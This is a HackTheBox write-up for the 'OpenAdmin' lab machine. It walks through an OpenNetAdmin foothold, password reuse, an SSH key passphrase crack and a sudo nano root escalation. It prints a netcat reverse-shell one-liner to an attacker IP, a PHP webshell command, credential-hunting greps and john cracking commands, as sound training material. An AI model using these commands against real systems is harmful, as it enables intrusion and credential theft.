# OpenAdmin — HackTheBox (write-up)

**Difficulty:** Easy
**Box:** OpenAdmin (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-01-12

---

## TL;DR

### OpenNetAdmin (ONA) RCE led to a shell as `www-data`. Found database password reused for SSH as `jimmy`. Internal-only website on port 52846 revealed Joanna's encrypted SSH key. Cracked the key passphrase and SSH'd as `joanna`. Sudo nano GTFOBins for root.
---
## Target info

- Host: `10.129.90.175`
- Services discovered via nmap
---
## Enumeration



Found `/ona` (OpenNetAdmin):





---
## Foothold



Initial shell couldn't `cd`, so upgraded:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.142 4444 >/tmp/f
```



Found port 52846 running internally:



`/var/www/internal` directory:



---
## Lateral movement (www-data to jimmy)

Searched for credential references:

```bash
find /etc /var/log -type f -exec grep -i "joanna" {} + 2>/dev/null
```

```bash
grep -ril "joanna" /etc /var/log 2>/dev/null
```



Joanna has a sudo file, jimmy does not.

```bash
find /etc /var/log -type f -exec grep -i "password" {} + 2>/dev/null
```





Found password: `xxj31ZMTZzkVA` -- didn't work anywhere directly.



Found `n1nj4W4rri0R!` in ONA config.



```bash
ssh jimmy@10.129.90.175
# password: n1nj4W4rri0R!
```



---
## Lateral movement (jimmy to joanna)

Listed directories owned by jimmy:

```bash
find / -type d -user jimmy 2>/dev/null
```



```bash
find / -type d -user jimmy 2>/dev/null | xargs -I {} ls -ld {}
```



In `/var/www/internal`, found `main.php`:



And `index.php` with a password hash:



Hash: `00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1`



Cracked to `Revealed`. Logged into the internal site:



Got an encrypted SSH key. Saved as `rsa_key`.

Created a targeted wordlist and cracked:

```bash
grep -i ninja /usr/share/wordlists/rockyou.txt > rockyou_ninja
ssh2john rsa_key > hash.txt
john --wordlist=rockyou_ninja hash.txt
```



Passphrase: `bloodninjas`

```bash
ssh -i rsa_key joanna@10.129.90.175
```

**Alternate path:** Could also drop a PHP webshell in `/var/www/internal` since jimmy owns it:

```bash
echo '<?php system($_GET["dank"]); ?>' > dank.php
```





Then trigger a reverse shell via the webshell:



---
## Privesc



From GTFOBins for nano:





---
## Lessons & takeaways

- Search the entire filesystem for files containing usernames or "password" to find config files with reused creds
- Internal-only web apps (localhost-bound ports) often contain credentials or SSH keys
- Use `grep` to create a sub-wordlist from rockyou when you have a hint about the password pattern
- `find / -type d -user <username>` reveals what directories a user owns, highlighting writable locations
---
